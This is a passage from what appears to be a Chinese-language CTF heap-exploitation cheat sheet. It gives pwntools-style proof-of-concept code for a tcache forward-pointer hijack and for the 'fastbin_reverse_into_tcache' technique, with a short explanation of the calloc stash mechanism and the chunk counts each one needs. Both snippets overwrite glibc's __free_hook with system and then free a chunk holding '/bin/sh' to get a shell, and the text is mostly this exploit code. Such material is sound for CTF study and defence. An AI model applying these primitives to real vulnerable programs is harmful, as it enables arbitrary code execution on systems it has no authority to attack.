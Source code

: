 ```python
delete_chunk(1)
add_chunk(1, 0xf0)
delete_chunk(2)

# hijack chunk 2's fd via editing chunk 1
edit_chunk(1, 'a' * 0x20 + p64(libc.sym['__free_hook']))

# attack free hook
add_chunk(2, 0x10)
add_chunk(2, 0x10)
edit_chunk(2, p64(libc.sym['system']))
edit_chunk(0,'/bin/sh\x00')
delete_chunk(0)
```

## fastbin_reverse_into_tcache

> [!info]- 介绍
> calloc 申请内存不会从 tcache 中获取，而是从 fast bin 中获取。取完后，会将 fast bin 中的 chunk 放入 tcache 中。如果修改 fast bin 中 chunk > 的 fd 指针，则会在 fd + 0x10 地址处写入一个较大的值。  
> ![在这里插入图片描述](/img/user/CakeVault/Pwn/cheatsheet/heap_imgs/fastbin_reverse_into_tcache.png)  
> 如果是使用 malloc 可以先消耗完 tcache 中的 chunk 然后再触发 stash 机制完成攻击。不过为了防止 target 的 fd 指向无效地址，需要在 fast bin 中预留另外 6 个 chunk 来填满 tcache 。
### 条件
malloc: 14个chunk
calloc: 8个chunk
### poc
```python
for i in range(14): add_chunk(i, 0x50)
for i in range(14): delete_chunk(i)

# tcache count 7->6
add_chunk(0, 0x50)

# free chunk 7 into tcache, now chunk 7 both in tcache and fastbin
delete_chunk(7)

# take chunk 7 out of tcache
add_chunk(7, 0x50)
# function as UAF
edit_chunk(7, p64(libc.sym['__free_hook'] - 0x10))

# cleanup tcache
for i in range(1, 7): add_chunk(i, 0x50)

# trigger stash
add_chunk(7, 0x50)

# chunk 7
# tcache: 7->8->9->10->11->12->13
add_chunk(7, 0x50)
edit_chunk(7, p64(libc.sym['system']))

edit_chunk(0,'/bin/sh\x00')
delete_chunk(0)
```